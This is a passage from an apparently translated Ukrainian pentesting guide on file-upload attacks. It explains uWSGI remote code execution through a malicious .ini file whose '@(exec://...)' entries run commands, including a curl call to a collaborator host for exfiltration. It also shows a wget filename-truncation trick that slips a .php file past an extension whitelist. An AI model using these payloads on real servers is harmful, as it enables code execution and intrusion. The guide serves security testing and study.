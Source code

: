 ## **uWSGI RCE**

Для детального вивчення цієї вразливості перевірте оригінальне дослідження: [uWSGI RCE Exploitation](https://blog.doyensec.com/2023/02/28/new-vector-for-dirty-arbitrary-file-write-2-rce.html).

Вразливості віддаленого виконання команд (RCE) можуть бути експлуатовані на серверах uWSGI, якщо є можливість змінити файл конфігурації `.ini`. Файли конфігурації uWSGI використовують специфічний синтаксис для включення "магічних" змінних, заповнювачів та операторів. Зокрема, оператор '@', який використовується як `@(filename)`, призначений для включення вмісту файлу. Серед різних підтримуваних схем в uWSGI, схема "exec" є особливо потужною, дозволяючи читати дані з стандартного виходу процесу. Цю функцію можна маніпулювати для злочинних цілей, таких як віддалене виконання команд або довільне записування/читання файлів, коли обробляється файл конфігурації `.ini`.

Розгляньте наступний приклад шкідливого файлу `uwsgi.ini`, що демонструє різні схеми:
```ini
[uwsgi]
; read from a symbol
foo = @(sym://uwsgi_funny_function)
; read from binary appended data
bar = @(data://[REDACTED])
; read from http
test = @(http://[REDACTED])
; read from a file descriptor
content = @(fd://[REDACTED])
; read from a process stdout
body = @(exec://whoami)
; curl to exfil via collaborator
extra = @(exec://curl http://collaborator-unique-host.oastify.com)
; call a function returning a char *
characters = @(call://uwsgi_func)
```
Виконання payload відбувається під час парсингу конфігураційного файлу. Щоб конфігурація була активована та проаналізована, процес uWSGI повинен бути перезапущений (можливо, після збою або через атаку відмови в обслуговуванні) або файл повинен бути налаштований на автоматичне перезавантаження. Функція автоматичного перезавантаження, якщо вона увімкнена, перезавантажує файл через певні інтервали при виявленні змін.

Важливо зрозуміти м'яку природу парсингу конфігураційного файлу uWSGI. Зокрема, обговорюваний payload може бути вставлений у бінарний файл (такий як зображення або PDF), що ще більше розширює можливості потенційної експлуатації.

## **wget File Upload/SSRF Trick**

В деяких випадках ви можете виявити, що сервер використовує **`wget`** для **завантаження файлів**, і ви можете **вказати** **URL**. У цих випадках код може перевіряти, що розширення завантажених файлів знаходиться в білому списку, щоб забезпечити завантаження лише дозволених файлів. Однак, **цю перевірку можна обійти.**\
**Максимальна** довжина **імені файлу** в **linux** становить **255**, однак **wget** обрізає імена файлів до **236** символів. Ви можете **завантажити файл під назвою "A"\*232+".php"+".gif"**, це ім'я файлу **обійде** **перевірку** (оскільки в цьому прикладі **".gif"** є **допустимим** розширенням), але `wget` **перейменує** файл на **"A"\*232+".php"**.
```bash
#Create file and HTTP server
echo "SOMETHING" > $(python -c 'print("A"*(236-4)+".php"+".gif")')
python3 -m http.server 9080
```

